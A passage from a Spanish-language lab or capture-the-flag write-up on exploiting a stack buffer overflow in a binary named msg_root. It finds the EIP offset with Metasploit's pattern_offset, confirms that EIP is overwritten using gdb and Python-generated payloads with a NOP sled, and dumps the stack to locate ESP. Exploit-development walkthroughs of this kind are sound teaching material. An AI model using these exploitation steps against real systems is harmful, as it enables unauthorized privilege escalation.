```
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x35614134
[*] Exact match at offset 14
```

#### Verificar que podemos sobreescribir el EIP

```
(gdb) r `python -c 'print "A" * 14 + "BBBB" + "\x90" * 60'` msg
r `python -c 'print "A" * 14 + "BBBB"'` msg
The program being debugged has been started already.
Start it from the beginning? (y or n) y
y

Starting program: /tmp/msg_root `python -c 'print "A" * 14 + "BBBB"'` msg

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

4. Obtenemos la dirección de ESP
```
(gdb) x/180wx $esp
x/180wx $esp
0xbffffcf4:	0x0804872e	0xbffffd06	0x0804a008	0x00000003
0xbffffd04:	0x4141fdd4	0x41414141	0x41414141	0x0804a008
0xbffffd14:	0x42424242	0xbffffd28	0x0804877b	0xbffffeec
0xbffffd24:	0xbfffff3b	0xbffffda8	0xb7e8ee46	0x00000003
0xbffffd34:	0xbffffdd4	0xbffffde4	0xb7fe0860	0xb7ff6821
0xbffffd44:	0xffffffff	0xb7ffeff4	0x08048351	0x00000001
0xbffffd54:	0xbffffd90	0xb7fefc16	0xb7fffac0	0xb7fe0b58
0xbffffd64:	0xb7fd6ff4	0x00000000	0x00000000	0xbffffda8
0xbffffd74:	0xc0e07fc9	0xeec609d9	0x00000000	0x00000000
0xbffffd84:	0x00000000	0x00000003	0x08048550	0x00000000
0xbffffd94:	0xb7ff59c0	0xb7e8ed6b	0xb7ffeff4	0x00000003
0xbffffda4:	0x08048550	0x00000000	0x08048571	0x0804873b
0xbffffdb4:	0x00000003	0xbffffdd4	0x080487a0	0x08048790
0xbffffdc4:	0xb7ff0590	0xbffffdcc	0xb7fff908	0x00000003
0xbffffdd4:	0xbffffede	0xbffffeec	0xbfffff3b	0x00000000
0xbffffde4:	0xbfffff3f	0xbfffff47	0xbfffff59	0xbfffff6e
0xbffffdf4:	0xbfffff7d	0xbfffff8c	0xbfffff97	0xbfffffb2
0xbffffe04:	0xbfffffc3	0xbfffffce	0xbfffffdc	0xbfffffe5
0xbffffe14:	0x00000000	0x00000020	0xb7fe1414	0x00000021
0xbffffe24:	0xb7fe1000	0x00000010	0x0f8bfbff	0x00000006
0xbffffe34:	0x00001000	0x00000011	0x00000064	0x00000003
0xbffffe44:	0x08048034	0x00000004	0x00000020	0x00000005
0xbffffe54:	0x00000008	0x00000007	0xb7fe2000	0x00000008
---Type <return> to continue, or q <return> to quit---

0xbffffe64:	0x00000000	0x00000009	0x08048550	0x0000000b
0xbffffe74:	0x000003e8	0x0000000c	0x000003e8	0x0000000d
0xbffffe84:	0x000003e8	0x0000000e	0x000003e8	0x00000017
0xbffffe94:	0x00000000	0x00000019	0xbffffebb	0x0000001f
0xbffffea4:	0xbfffffee	0x0000000f	0xbffffecb	0x00000000
0xbffffeb4:	0x00000000	0xc4000000	0x0f834d9d	0xe75b1f8d
0xbffffec4:	0x254b0bc7	0x693d7097	0x00363836	0x00000000
0xbffffed4:	0x00000000	0x00000000	0x742f0000	0x6d2f706d
0xbffffee4:	0x725f6773	0x00746f6f	0x41414141	0x41414141
0xbffffef4:	0x41414141	0x42424141	0x90904242	0x90909090
0xbfffff04:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff14:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff24:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff34:	0x90909090	0x6d009090	0x53006773	0x4c564c48
0xbfffff44:	0x4800323d	0x3d454d4f	0x6d6f682f	0x6e612f65
0xbfffff54:	0x69736e61	0x444c4f00	0x3d445750	0x74706f2f
```